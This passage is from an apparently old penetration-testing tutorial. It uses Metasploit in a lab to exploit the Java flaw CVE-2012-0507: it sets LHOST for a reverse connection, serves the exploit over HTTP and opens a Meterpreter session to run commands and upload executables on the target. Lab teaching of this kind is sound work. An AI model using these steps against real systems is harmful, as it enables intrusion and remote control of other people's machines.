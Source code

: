 ![](http://35.160.74.13/wp-content/uploads/2012/09/Set_Payload-300x169.jpg)

  
*set LHOST [IP\_address]* :  In order to get reverse connection, we have to set our IP in the LHOST.    
  
open the Terminal and type “ifconfig”. This will display the IP info of our PenTesting Machine.  The IP will be “192.168.56.x”.   For instance, let me say the ip is 192.168.56.10.   
  
Now  Type in the msfconsole as “set LHOST 192.168.56.10”. 

![](http://35.160.74.13/wp-content/uploads/2012/09/set_LHOST-300x175.jpg)

**Part IV: ****Breaching the Target Machine:**

  
So , are you ready?! Let us break into the Target Machine.   
  
*Step 1:*

![](http://35.160.74.13/wp-content/uploads/2012/09/Exploiting_Metasploit-300x157.jpg)

  
Type “exploit” in the msfconsole. This will start the reverse handler to our Machine and it will wait anyone that will connect to the our HTTP server (Eg: http://192.168.56.10). Once victim connect to our server, it will send a jar will that will exploit the CVE-2012-0507 vulnerability.  
  
*step 2:*   
  
Open the Firefox/IE in the Target machine.    
Enter “http://192.168.56.10”.  
It loads nothing but exploit will run in the background.

![](http://35.160.74.13/wp-content/uploads/2012/09/Target-machine-connects-300x93.jpg)

Step 3:  
Open the BT5 machine, it will display the following output:

![](http://35.160.74.13/wp-content/uploads/2012/09/session_meterpreter-300x92.jpg)

  
Now type “sessions”, this will show the list of active sessions .  
  
Type “sessions -i 1”, this will open the connection to the session with the id ‘1’ and bring you to Meterpreter. Meterpreter will help you to interact/control with the Target.

![](http://35.160.74.13/wp-content/uploads/2012/09/Meterpreter-300x158.jpg)

  
  
  
Step 4:Upload files  
Yeeeh..! we got backdoor to the Target machine, now we can run any commands in the Target.



For Example, Typing ‘sysinfo’ will display the system information.



  
You can also upload and execute your own executable files in the Target machine.  
  